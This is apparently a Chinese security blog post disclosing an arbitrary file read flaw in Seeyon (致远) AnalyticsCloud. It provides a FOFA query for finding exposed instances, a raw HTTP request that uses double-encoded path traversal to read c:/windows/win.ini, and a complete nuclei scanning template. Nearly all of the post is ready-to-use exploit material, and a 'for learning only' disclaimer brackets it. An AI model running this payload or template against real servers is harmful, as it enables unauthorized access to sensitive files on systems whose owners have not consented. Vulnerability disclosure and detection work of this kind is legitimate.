 #  致远AnalyticsCloud 分析云任意文件读取漏洞   
 HK安全小屋   2025-04-04 20:42  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
FOFA:  
```
title="AnalyticsCloud 分析云"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2P66Z2ia5bkjAxkcDmGicLJz4dibfRgYPKcsicz9PqcEdpicqWwA5uwppVyj1Yr87jvwIyxdMGGG1vFUw/640?wx_fmt=png&from=appmsg "")  
  
POC：  
```
GET /.%252e/.%252e/c:/windows/win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```  
  
响应内容为c:/windows/win.ini中的内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2P66Z2ia5bkjAxkcDmGicLJzzerP3B8jgenE2ibibiblOgBEPTbkr1qiazYmkho7M8lkjuesx73dvKoprA/640?wx_fmt=png&from=appmsg "")  
  
nuclei POC:  
```
id: seeyon-analyticscloud-arbitrary-file-read

info:
  name: 致远 AnalyticsCloud 分析云任意文件读取漏洞
  author: xxx
  severity: high
  description: 致远 AnalyticsCloud 分析云存在任意文件读取漏洞，攻击者可通过特定路径读取服务器上的敏感文件。
  tags: file-read, seeyon

requests:
  - method: GET
    path:
      - "{{BaseURL}}/.%252e/.%252e/c:/windows/win.ini"
    headers:
      User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36"
      Accept-Encoding: "gzip, deflate"
      Accept: "*/*"
      Connection: "keep-alive"
    matchers:
      - type: status
        status:
          - 200
      - type: regex
        part: body
        regex:
          - "for 16-bit app support"  
```  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
